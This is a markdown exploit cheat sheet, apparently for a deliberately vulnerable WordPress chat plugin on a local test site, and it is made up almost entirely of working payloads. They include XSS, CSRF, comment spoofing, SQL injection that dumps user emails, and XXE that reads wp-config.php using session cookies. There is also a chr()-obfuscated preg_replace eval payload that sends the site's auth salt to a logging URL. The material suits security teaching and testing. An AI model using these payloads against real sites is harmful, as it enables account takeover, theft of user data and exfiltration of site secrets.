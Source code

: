 Make admin say something
========================

With Blog Access
----------------

### XSS

```js
haX0R = true;
```

```html
<script>
(function() {
	if ( 'undefined' !== typeof haX0R ) {
		return;
	}

	jQuery( '.widget_chat_sploit textarea' ).val( 'I am lame HAHAHA' );

	jQuery( '.widget_chat_sploit form' ).submit();
})()
</script>
```

Without Blog Access
-------------------

### CSRF

```html
<form enctype="text/plain" action="http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit" method="POST">
	<input type="hidden" name="&lt;chat&gt;" value="Hello&lt;/chat&gt;" />
	<input type="submit" value="Hot mdawaffe pics!" />
</form>
```

### Spoof

```bash
curl -i 'http://hacek.local/wordpress/wp-comments-post.php' --form 'comment=Hi' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=12187'
```

Get list of all users' email adresses
=====================================

With Blog Access
----------------

### SQL Injection

```bash
curl -i 'http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit&since=2013-04-18+05:33:47%27+UNION+SELECT+user_login+AS+author%2C+user_email+AS+text%2C+0+AS+time+FROM+wp2_users+--+'
```

Without Blog Access
-------------------

ORLY?

Get the site's SECRET_KEYs
=========================

With Blog Access
----------------

### XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY hi SYSTEM "php://filter/read=convert.base64-encode/resource=file:///Users/mdawaffe/Sites/wp-config.php"> ]>
<chat>&hi;</chat>
```

```bash
cat xxe.xml | curl "http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit" -H "Cookie: wordpress_97bd8bf7ee22f9417a72a1ea2e1d6871=author%7C1366426304%7C8fad75c62a8b4bfac050244f094c1084; wordpress_logged_in_97bd8bf7ee22f9417a72a1ea2e1d6871=author%7C1366426304%7C4ae3cc62335b75ef19bb1f812050c654;" --data @-
```

Without Blog Access
-------------------

Get blog access first ;)


Get the site's SECRET_SALTs
===========================

`PREG_REPLACE_EVAL`
-------------------

### With Blog Access

```
hello http://example.com/{${substr(a.($a=get_option(auth_salt)),0,1)}} there

hello http://example.com/{${substr(chr(97).($a=get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))),0,1)}} there
```

### Without Blog Access

```
hello http://example.com/{${substr(chr(97).(file_get_contents(chr(104).chr(116).chr(116).chr(112).chr(58).chr(47).chr(47).chr(104).chr(97).chr(99).chr(101).chr(107).chr(46).chr(108).chr(111).chr(99).chr(97).chr(108).chr(47).chr(116).chr(101).chr(115).chr(116).chr(47).chr(108).chr(111).chr(103).chr(46).chr(112).chr(104).chr(112).chr(63).chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116).chr(61).urlencode($a=get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))))),0,1)}} there
```
